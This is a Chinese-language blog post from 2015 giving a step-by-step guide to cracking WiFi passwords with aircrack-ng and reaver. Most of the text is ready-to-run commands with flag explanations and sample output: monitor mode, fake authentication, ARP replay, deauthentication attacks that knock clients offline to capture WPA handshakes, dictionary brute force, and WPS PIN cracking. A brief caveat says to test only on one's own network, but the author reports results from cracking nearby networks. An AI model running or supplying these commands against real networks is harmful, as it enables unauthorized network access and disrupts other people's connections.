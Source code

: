 ```yaml
---
layout: post
title:  "WIFI密码破解笔记"
date:   2015-10-31 09:15:52
comments: true
categories: Tech MITM
---
```

相对于前一段时间脆弱的WEP加密路由器而言，当今的路由器加密方式也大都改变为WPA/WPA2，使得无线路由器的破解难度增加。
虽然如此，但还是有很多漏洞层出不穷，如针对路由器WPS的漏洞。退一步来说，即使加密算法无懈可击，我们还可以针对安全防护中最脆弱的部分——人——来进行破解。
人的想象力实在是匮乏的很，往往设置密码来来回回就是那么几类，用一个常见的弱口令字典，往往就能在10分钟左右把其密码暴力破解出来。
这里提供己种常见的WIFI破解方式，其中WEP破解因为已经过时，所以只是在提到的时候一笔带过，主要记录的是抓握手包然后暴力破解的
通用方法，末尾也会提及到WPS的破解方式。注意这仅仅作为个人实验用，最好在自己的家庭网络中测试，以免给别人带来不便。  

### 准备工具:  
> - Linux操作系统，Windows下可以用虚拟机代替。
> - [aircrack-ng][aircrack]工具集
> - 安装reaver（可选）

 
### Step1. 查看网卡信息，记录无线网卡MAC地址

    #ifconfig -a (以管理员权限运行，下同)

这里假设本机MAC地址为：00:11:22:33:44:55

### Step2. 开启无线网卡，设置为监听模式  
    #airmon-ng start wlan0  [信道号]

其中信道号可以先不填,开启后可以ifconfig看到多了个接口mon0，即为监听接口。值得一提的是，无线网卡的监听模式其实
就相当于有线情况下的混杂模式（Promiscuous Mode）。

注: 如果在较新的系统上运行,可能会出现错误"SIOCSIFFLAGS: Name not unique on network",
这是由于新版的Networkmanager把虚拟的往口mon0也当作硬件设备来管理,导致设备冲突.解决方法有很多:

1.把networkmanager暂时关闭.

    #service network-manager stop

    使用完毕之后再打开即可.

2.直接把wlan0网卡设置为monitor模式:

    #ifconfig wlan0 down
    #iwconfig wlan0 mode monitor
    #ifconfig wlan0 up

3.前面两种方式都会使得wlan0网卡变为monitor模式,从而无法上网,如果有多个网卡可以考虑这两种方式.
  但是如果之有一个无线网卡,我们可以修改networkmanager的配置使其不管理指定的网络接口,在`/etc/NetworkManager/Networkmanager.conf`文件后面加两行:

    #avoid conflicts with airmon-ng 
    [keyfile]
    unmanaged-devices=interface-name:wlan0mon;interface-name:wlan1mon;interface-name:mon0;interface-name:mon1

然后再和之前一样使用airmon-ng即可.

### Step3. 搜索周围的无线网络  
    #airodump-ng mon0

这条命令会在mon0接口上不断切换信道来搜索附近的wifi热点，在结果中
找到待破解的AP，记录BSSID（这里假设为AA:BB:CC:DD:EE:FF），信道号（这里假定为 6），ESSID（设为myWiFi)

### Step4. 测试无线设备的注入(可选,为了在WEP加密时进行虚拟认证)

    aireplay-ng -9 -e myWiFi -a AA:BB:CC:DD:EE:FF mon0

其中

    -9 表示注入测试
    -e myWiFi 是无线网络名字
    -a AA:BB:CC:DD:EE:FF 是接入点的MAC地址
    mon0 是无线接口名字
    返回结果的最后一行表示注入成功率，一般比较高，如果很低表示离AP太远了  

### Step5. 开始抓包

    airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w output mon0

### Step6. 虚拟认证（可选，只在AP为WEP加密的时候才有效）

这里值得一提的是，从前为了破解WEP加密的WIFI，我们需要收集足够多的IVS。如果运气好的话，通常40位WEP（64位密钥）用30万IVs就可以破解，
104位WEP（128位密钥）有150万IVs可以破解，运气不好的话需要更多。为此我们需要用ARP注入的方式加开扑捉IVs的速度。但对于WPA/WPA2我们则没有类
似破解办法，只能通过扑捉握手包来进行暴力破解。 为了AP能够接收packet，源MAC地址必须已经连接。如果你正在注入的源MAC地址没有连接，
AP会忽略所有包并发送一个“DeAuthentication“包。这种情况下，不会有新的IVs被创建。
缺少和AP的连接是注入失败的一个常见原因，记住：你用来注入的MAC地址必须连接AP（通过虚拟认证或者使用已经连接的客户端MAC）

虚拟认证：  

    aireplay-ng -1 0 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    -1 表示虚拟认证（fake authentication）
    0 表示重新认证的时间（秒）
    -e myWiFi 是无线网络名称
    -a AA:BB:CC:DD:EE:FF 是接入点MAC地址
    -h 00:11:22:33:44:55 是我们网卡的MAC地址
    mon0是无线接口名称

成功有类似下面的输出:

    18:18:20  Sending Authentication Request
    18:18:20  Authentication successful
    18:18:20  Sending Association Request
    18:18:20  Association successful :-)

另外还可以:

    aireplay-ng -1 6000 -o 1 -q 10 -e myWiFi -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

其中:

    6000 - 每6000秒重新认证一次. 长周期同时也会导致发送keep alive packets
    -o 1 - 一次仅发送一组包，默认发送多组，这样会对某些AP导致混乱
    -q 10 - 每10秒发送一次keep alive packets

成功有类似下面输出:

    18:22:32  Sending Authentication Request
    18:22:32  Authentication successful
    18:22:32  Sending Association Request
    18:22:32  Association successful :-)
    18:22:42  Sending keep-alive packet
    18:22:52  Sending keep-alive packet

### Step7. ARP请求重播攻击（可选，只在虚拟认证成功时才有效）

airodump抓包速度比较慢，为了加速包的产生，我们可以使用传统的ARP请求重播攻击（ARP request replay attack）来快速生成IVs（Initialization Vectors）：

    aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 mon0

### Step8. 攻击目标客户端使其掉线，获取握手包

和WEP破解最显著的区别是，由于WPA需要暴力破解，因此抓的包里必须至少包含一个握手包，
我们可以发送一种称之为“Deauth”的数据包来将已连接至无线路由器的合法无线客户端断开，此时客户端就会重新连接无线路由器，
我们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。命令为：

    aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF -c clientMAC mon0

其中:

    -0 表示采用deauth攻击模式，后卖弄加上攻击次数，这里设置为1，可以根据情况设置为1-10不等（不要设太多不然对方会频繁掉线）
    -a 为AP的MAC ， -c为已连接的客户端MAC

### Step9. 暴力破解抓下来的包

一旦捕捉到WPA handshake，我们就可以开始进行破解了：

    aircrack-ng -b AA:BB:CC:DD:EE:FF output*.cap -w yourdic

其中:

    -b AA:BB:CC:DD:EE:FF 选择了一个我们感兴趣的接入点，这是可选的，因为我们捕捉数据的时候就已经指定了此AP而忽略其他.
    output*.cap 选择我们在Step5里用airodump抓下来的包.
    -w 指定一个破解的字典。破解的效率和字典的选择有很大关系，一般选用弱口令字典，因为强口令破解时间太长，得不偿失。

许多人家里的WIFI都是常见的格式，车牌、手机、名字、拼音等等，从我破解周围WIFI的结果来看，使用通用的WPA/PSK字典来破解，时间往往不会
超过10分钟。这里说点题外话，像用预先计算好的像彩虹表一样的配对表（Pairwise Master Keys）来进行破解也是不行的，因为口令都用ESSID加了盐。所以还是得乖乖抓握手包。

 
### 其他方法（WPS破解）：

除了这样通用的暴力破解外，我们还可以用reaver来破解带WPS的路由器的PIN码，但是对信号的要求很高，如果AP的信号很强，
或者自己的无线网卡很给力，也可以采用这种方式。优点是字典无关，无论路由器密码多强都能破解出来，在我的笔记本上尝试破解了自己家的WIFI密码，
花费的时间大概为5个小时。

以上述AP为例，可以用命令行运行

    reaver  -i  mon0  -b AA:BB:CC:DD:EE:FF  -a  -S  -vv  -d2  -t 5 -c 1

其中：

    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d 即delay每穷举一次的闲置时间 预设为1秒
    -t 即timeout每次穷举等待反馈的最长时间
    -c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 （非TP-LINK路由推荐–d9 –t9参数防止路由僵死  

示例：  

    reaver -i mon0 -b MAC -a -S –d9 –t9 -vv -c 1 

    应因状况调整参数
    目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
    目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
    目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

[aircrack]: http://www.aircrack-ng.org/doku.php?id=simple_wep_crack
